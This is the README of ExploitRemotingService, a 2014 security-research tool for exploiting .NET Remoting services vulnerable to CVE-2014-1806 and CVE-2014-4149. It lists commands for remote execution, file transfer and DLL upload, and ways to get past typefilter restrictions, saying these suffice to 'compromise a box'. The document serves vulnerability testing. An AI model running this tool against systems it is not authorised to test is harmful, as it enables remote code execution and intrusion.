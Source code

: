 ExploitRemotingService (c) 2014 James Forshaw
=============================================

A tool to exploit .NET Remoting Services vulnerable to CVE-2014-1806 or CVE-2014-4149.
It only works on Windows although some aspects _might_ work in Mono on *nix.

NOTE: The vulnerable service provided in this repo has intentionally disabled the
security fix so that you can test the tools are working. This shouldn't be a common
configuration.

Usage Instructions:
===================

<pre>
ExploitRemotingService [options] uri command [command args]
Copyright (c) James Forshaw 2014

Uri:
The supported URI are as follows:
tcp://host:port/ObjName   - TCP connection on host and portname
ipc://channel/ObjName     - Named pipe channel

Options:

  -s, --secure               Enable secure mode
  -p, --port=VALUE           Specify the local TCP port to listen on
  -i, --ipc=VALUE            Specify listening pipe name for IPC channel
      --user=VALUE           Specify username for secure mode
      --pass=VALUE           Specify password for secure mode
      --ver=VALUE            Specify version number for remote, 2 or 4
      --usecom               Use DCOM backchannel instead of .NET remoting
      --remname=VALUE        Specify the remote object name to register
  -v, --verbose              Enable verbose debug output
      --useser               Uses old serialization tricks, only works on
                               full type filter services
      --uselease             Uses new serialization tricks by abusing lease
                               mechanism.
      --nulluri              Don't send the URI header to the server
      --autodir              When useser is specified try and automatically
                               work out the installdir parameter from the
                               server's current directory.
      --installdir=VALUE     Specify the install directory of the service
                               executable to enable full support with useser
  -h, -?, --help

Commands:
exec [-wait] program [cmdline]: Execute a process on the hosting server
cmd  cmdline                  : Execute a command line process and display stdout
put  localfile remotefile     : Upload a file to the hosting server
get  remotefile localfile     : Download a file from the hosting server
ls   remotedir                : List a remote directory
run  file [args]              : Upload and execute an assembly, calls entry point
user                          : Print the current username
ver                           : Print the OS version
raw base64_object             : Send a raw serialized object to the service
</pre>

This tool supports exploit both TCP remoting services and local IPC services. To test
the exploit you need to know the name of the .NET remoting service and the port it's
listening on (for TCP) or the name of the Named Pipe (for IPC). You can normally find
this in the server or client code. Look for things like calls to:

RemotingConfiguration.RegisterWellKnownServiceType or Activator.CreateInstance

You can then try the exploit by constructing an appropriate URL. If TCP you can use the
URL format tcp://hostname:port/ServiceName. For IPC use ipc://NamedPipeName/ServiceName.

A simple test is to do:

ExploitRemotingService SERVICEURL ver

If successful it should print the OS version of the hosting .NET remoting service. If
you get an exception it might be fixed with CVE-2014-1806. At this point try the COM
version using:

ExploitRemotingService -usecom SERVICEURL ver

This works best locally but can work remotely if you modify the COM configuration and
disable the firewall you should be able to get it to work. If that still doesn't work
then it might be an up to date server. Instead you can also try the full serialization
version using.

ExploitRemotingService -useser SERVICEURL ls c:\

For this to work the remoting service must be running with full typefilter mode enabled
(which is some, especially IPC services). It also only works with the commands ls, put
and get. But that should be enough to compromise a box.

ExploitRemotingService -uselease SERVICEURL ls c:\

This mode bypasses low typefilter mode to get serialization tricks to work. It also only
works with the commands ls, put and get. But that should be enough to compromise a box.

ExploitRemotingService -uselease -autodir SERVICEURL exec notepad

The autodir option tries to work out the location of the service and will upload a DLL
to enable full remoting support including exec.
